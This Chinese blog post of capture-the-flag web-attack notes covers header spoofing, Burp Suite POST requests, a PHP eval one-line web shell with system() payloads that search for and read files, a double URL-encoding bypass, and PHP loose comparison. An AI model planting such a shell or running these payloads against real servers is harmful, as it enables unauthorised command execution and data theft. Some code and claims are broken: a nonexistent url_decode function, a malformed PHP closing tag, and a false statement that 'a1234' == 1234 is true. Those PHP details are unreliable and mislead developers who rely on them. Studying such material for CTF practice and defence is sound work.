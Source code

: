 ```yaml
---
title: '网络攻防tips'
date: 2021-06-10 16:50:16
tags: []
published: true
hideInList: false
feature: 
isTop: false
---
```

记录一些网络攻防题中的小tips。

# Robots
每个网站有一个robots.txt用于防爬虫。

# BP构造POST请求
在BP中可以在header里添加`Content-type: application/x-www-form-urlencoded`，并在最后添加参数构造POST请求

# 伪造请求
在header中添加x-forwarded-for: xxx.xxx.xxx.xxx，以及referer: https://www.google.com 来伪造请求。

# 一句话木马
当一句话木马在服务器上时：
```php
<?php @eval($_POST['shell']);?>
```
将请求构造为POST，且将参数设置为
```
shell=system("find / -name 'flag*'");
```
```
shell=system('cat flag.txt');
```

# ?的解码
问号的URL编码为%3f，浏览器会将%3f解码为问号。如果服务端对问号有一次解码校验的过程：
```php
<?php
url_decode($param);
?>
```
则可以先将%3f编码，即%253f。浏览器会现将%253f解码为%3f，这样就可以绕过服务端的问号校验（服务端收到的就是%3f而不是？）。

# PHP中的比较
PHP中`==`会先强制转化类型再比较值，而`===`则会比较类型和值。
```php
<?php
$a = 'a1234';
$a == 1234; # 在比较时会去掉字母
$b = 'abc';
$b == 0; # 比较时会去掉字母
>
```
